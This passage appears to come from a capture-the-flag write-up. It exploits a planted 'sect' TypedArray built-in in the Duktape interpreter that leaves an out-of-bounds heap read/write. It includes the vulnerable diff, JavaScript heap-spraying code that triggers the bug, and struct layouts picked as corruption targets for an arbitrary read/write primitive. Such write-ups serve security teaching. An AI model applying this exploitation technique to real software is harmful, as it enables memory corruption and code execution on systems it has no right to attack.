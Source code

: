 ``` diff
+		return 0;
+	}
+	h_this->length = 31337;
+	duk_hbuffer * buf = h_this->buf;
+	buf->size = 31337;
+	return 0;
+}
```
A built-in named `sect` was added to the TypedArray object. Calling this function will set the TypedArray and it's backing-buffer size to 31337. However, it will not reallocate the backing-buffer.  

Therefore, if you allocate a TypedArray of a size less than 31337 and you call the `sect` built-in on it, you'll be able to read and write out-of-bounds in the heap-memory.

With this limited out-of-bounds read/write primitive we can then find a suitable object in the heap to corrupt and create a fully controlled read/write-what-anywhere primitive.

## Part I - Code-exec in the sandboxed JS-interpreter process
### Create a fully controlled read/write-what anywhere primitive
To achieve our wanted primitive, theres a bit of work to be done.

First we do some minor spraying with small TypedArrays on which we trigger the vuln to create the limited out-of-bounds-primitive. Then we spray some larger potential targets where we set their data to magic values so we can find them in the heap using our OOB-read.
``` js
/* defrag the heap */
for(i = 0; i < pwn.defrag_heap_rounds; i++) {
  f = new Float64Array(4);f[0] = 1111.4444;f[1] = 2222.5555;
  pad.push(f);
}

/* spray duk_hbufobj and duk_hbuffer objects via Float64Arrays*/
for(i = 0; i < pwn.spray_rounds; i++) {
  var p = new Float64Array(4);p[0]=1337.0;p[1]=4445.0;
  p.sect(); /* trigger vuln */
  spray.push(p);
  var q = new Float64Array(200);q[0]=6661.6661;q[1]=1116.1116;
  targets.push(q);
}
```
My target of choices for corruption was a `duk_hbuffer` object since these are conveniently created and used by TypedArrays.
``` c
struct duk_hbuffer {
  duk_heaphdr hdr;
  duk_size_t size;
  void *curr_alloc; 
  ...
```
Each `duk_hbuffer` object is referenced by a `duk_hbufobj` object
``` c
struct duk_hbufobj {
  duk_hobject obj;
  duk_hbuffer *buf; /* points to duk_hbuffer */
  duk_hobject *buf_prop;
  duk_uint_t offset;       /* byte offset to buf */
  duk_uint_t length;       /* byte index limit for element access, exclusive */
  duk_uint8_t shift;       /* element size shift:
                            *   0 = u8/i8
                            *   1 = u16/i16
                            *   2 = u32/i32/float
                            *   3 = double
```